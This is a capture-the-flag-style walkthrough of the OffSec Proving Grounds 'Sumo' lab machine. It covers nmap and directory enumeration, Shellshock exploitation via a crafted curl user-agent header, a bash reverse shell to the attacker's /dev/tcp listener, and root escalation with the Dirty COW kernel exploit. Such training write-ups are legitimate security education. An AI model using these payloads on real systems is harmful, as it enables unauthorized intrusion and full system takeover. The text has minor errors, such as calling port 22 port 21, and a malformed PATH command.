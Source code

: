 ```yaml
---
layout: post
title: Sumo
date: '2024-01-18'
description: "Sumo is an easy lab on offsec proving grounds labs"
categories: [offsec]
---
```


## MACHINE INFO
> **[Sumo](https://portal.offsec.com/labs/play)** is an easy linux machine which leverages a shellshock vulnerability to gain a shell to the target. To escalate privileges we use a kernel exploit called dirtycow. 

## WALKTHROUGH
Perform an Nmap scan on the target to identify open ports and services running on them.
```shell
─$ sudo nmap -sCV -A 192.168.164.87 -p- --min-rate=10000ms
[sudo] password for p0s3id0n: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-28 20:18 BST
Warning: 192.168.164.87 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.164.87
Host is up (0.38s latency).
Not shown: 44378 closed tcp ports (reset), 21155 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06:cb:9e:a3:af:f0:10:48:c4:17:93:4a:2c:45:d9:48 (DSA)
|   2048 b7:c5:42:7b:ba:ae:9b:9b:71:90:e7:47:b4:a4:de:5a (RSA)
|_  256 fa:81:cd:00:2d:52:66:0b:70:fc:b8:40:fa:db:18:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=4/28%OT=22%CT=1%CU=30560%PV=Y%DS=4%DC=T%G=Y%TM=662E
OS:A168%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=108%TI=Z%TS=A)SEQ(SP=105
OS:%GCD=1%ISR=108%TI=Z%TS=9)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%TS=7)SEQ(SP=105%G
OS:CD=1%ISR=10A%TI=Z%TS=8)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%II=I%TS=8)OPS(O1=M5
OS:51ST11NW5%O2=M551ST11NW5%O3=M551NNT11NW5%O4=M551ST11NW5%O5=M551ST11NW5%O
OS:6=M551ST11)WIN(W1=3890%W2=3890%W3=3890%W4=3890%W5=3890%W6=3890)ECN(R=Y%D
OS:F=Y%T=40%W=3908%O=M551NNSNW5%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=O%F=AS%RD=0%
OS:Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF
OS:=Y%T=40%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK
OS:=G%RUCK=EEDC%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   490.78 ms 192.168.45.1
2   476.76 ms 192.168.45.254
3   490.71 ms 192.168.251.1
4   490.92 ms 192.168.164.87

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.68 seconds
```

From the scan, we identified ssh running on port 21 and http running on port 80.

We proceeded with enumeration on port 80 and got redirected to a website, which didn't have a lot of information.
![img-description](1.png)

We proceeded to scan the website for hidden directories using gobuster.
```shell
$ gobuster dir -u http://192.168.164.87/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.164.87/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 291]
/.hta                 (Status: 403) [Size: 286]
/.htpasswd            (Status: 403) [Size: 291]
/cgi-bin/             (Status: 403) [Size: 290]
/index.html           (Status: 200) [Size: 177]
/index                (Status: 200) [Size: 177]
/server-status        (Status: 403) [Size: 295]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

From the output, the only interesting directory was the /cgi-bin/ directory but it has a 403 status code meaning we are forbidden from visiting the directory.

We scanned the /cgi-bin/ directory to find if there are any more hidden sub-directories on it.
```shell
$ gobuster dir -u http://192.168.164.87/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.164.87/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 294]
/.htaccess            (Status: 403) [Size: 299]
/.htpasswd            (Status: 403) [Size: 299]
/test                 (Status: 200) [Size: 14]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
The /test/ directory did not have any more information. At this point it felt like we were going down a rabbit hole.
![img-description](2.png)
I used nikto to scan the website for vulnerabilites.
The output of the nikto scan pointed us towards a shellshock vulnerability.
![img-description](3.png)
> Shellshock vulnerability is bash shell vulnerability that allows execution of arbitrary commands through environmental variable.

Using the information at (https://github.com/opsxcq/exploit-CVE-2014-6271) relevant to the shellshock vulnerability identified by nikto. 

We tested how to exploit the vulnerability using 
```shell
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'whoami'" http://192.168.164.87/cgi-bin/test
```
![img-description](4.png)
Let's breakdown the command:
> `curl`: This is a command-line tool used to transfer data to or from a server. It's commonly used to make HTTP requests.
- **`() { :; };`**: This is the Shellshock payload. It defines a function without a name (`(){}`), followed by a colon `:`, which is a no-op command in Bash. This payload exploits the vulnerability in Bash (CVE-2014-6271) by executing arbitrary commands after the function definition.
- **`echo; echo;`**: These commands are used to insert empty lines in the HTTP request. They may be included to ensure that the injected payload is separated from other headers or content in the request.
- **`/bin/bash -c 'whoami'`**: This is the command that the attacker wants to execute on the target server. In this case, it's running the `whoami` command to determine the username of the user executing the CGI script.
- **`http://192.168.164.87/cgi-bin/test`**: This is the URL of the CGI script on the target server that the attacker is attempting to exploit.

Now that we know the exploit works, why not try editing the exploit to give us a revrese shell to the target?
Using (https://www.revshells.com/) we generated a single bash one-liner reverse shell payload.
Payload:
```shell
/bin/bash -i >& /dev/tcp/192.168.45.220/4444 0>&1
```
Payload used:
```shell
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -i >& /dev/tcp/192.168.45.220/4444 0>&1" http://192.168.164.87/cgi-bin/test
```
Before running the command, ensure the netcat listener is set. Once we ran the command, we successfully got a shell as www-data!!
![img-description](5.png)

We wanted to escalate our privliges to root and for that we used linpeas. 
> **Linpeas**  is a script used for privilege escalation on Linux systems during penetration testing or security assessments. You can get it from (https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

We uploaded linpeas to the target through a python http.server and ran it. 
![img-description](6.png)
![img-description](7.png)
From the output of running linpeas, we got the following information:
- The target is running on Ubuntu version 12.04 
- There is a dirtycow exploit that can be used to exploit the kernel and possibly give us root privileges. 

To exploit this, we used : (https://github.com/FireFart/dirtycow/blob/master/dirty.c)
> **Dirtycow** is a security vulnerability in the Linux kernel that allows an unprivileged local user to gain write access to read-only memory mappings.

Once we uploaded the dirtycow exploit on our attack machine, we uploaded it to the target machine using python http.server. 
Once the exploit was uploaded, we compiled it using 
```shell
gcc -pthread dirty.c -o dirty -lcrypt
```
We encountered a compilation error 
![img-description](10.png)
We solved the error using
```shell
`PATH=PATH$:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH`
```

Then we compiled it again and this time we successfully managed to the exploit.
The application prompts us to set a new password of choice and for this we use `blueberry`
![img-description](9.png)
Once the password is set, the application informs us that we can login as the user 'firefart' using the newly set password 'blueberry'
![img-description](11.png)

Now that we have the username, target ip and password, we used ssh to login as firefart.
After successfully logging in as firefart, I used the following command to overwrite the password.
```shell
mv /tmp/passwd.bak /etc/passwd
```

After, we confirmed that we are root, navigated to the /root directory and got the root flag!!
![img-description](12.png)
